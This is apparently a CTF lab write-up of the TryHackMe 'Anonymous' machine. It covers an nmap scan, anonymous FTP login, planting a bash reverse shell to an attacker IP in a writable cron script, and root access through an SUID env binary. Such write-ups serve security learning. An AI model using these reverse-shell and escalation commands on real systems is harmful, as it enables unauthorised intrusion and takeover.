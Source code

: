 ```yaml
---
date: 2020-05-24 15:48:48
layout: post
title: "Anonymous"
subtitle:
description: Medium rated machine from Tryhackme
image: /writeup/assets/img/anonymous/anonymous.png
optimized_image:
category: Tryhackme
tags: tryhackme ftp
author: cirius
paginate: false
---
```

Starting with the nmap scan
```bash
nmap -T4 -p- -A 10.10.73.153
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 20:18 IST
Nmap scan report for 10.10.135.212
Host is up (0.23s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 2s, median: 0s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2020-05-24T14:49:01+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-24T14:49:00
|_  start_date: N/A

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   375.13 ms 10.9.0.1
2   373.50 ms 10.10.73.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.89 seconds
```

Found 4 open ports.
My first approach was to check for anonymous login on ftp and yes the anonymous login was allowed.

Inside the ftp server, a directory named scripts was present. The directory contained 3 files named **clean.sh , removed_files.log , to_do.txt.
I downloaded all files. The to_do.txt listed
```text
I really need to disable the anonymous login...it's really not safe
```
The clean.sh contents
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

and the removed_files.log conatained,
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

So the clean.sh was running at some interval of time and then writing the removed_files.log

I added my command to get a reverse shell, next time the script executes.
```bash
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
        bash -i >& /dev/tcp/10.9.12.192/8888 0>&1 
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
Made the permission of the local clean.sh same as on the ftp server
```bash
chmod 757 clean.sh
```
Uploaded it to the ftp server and then started listening for the connection.

After a while, got the reverse shell.
![placeholder](/writeup/assets/img/anonymous/shell.png "shell")
Made shell better by these commands.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#Then
export TERM=xterm
#Then press ctrl+z
#type
stty raw -echo
#then
fg
#then press Enter two times.
#This makes shell with most functions as ssh shell.
```

Got the user flag

Looking for any interesting SUID binary,
```bash
find / -perm -u=s -type f 2>/dev/null
```
I found **env** binary as SUID.

Executed this command as given by GTFObins
```bash
env /bin/sh -p 
```
This gave me the root shell.
 
 Got the root flag.
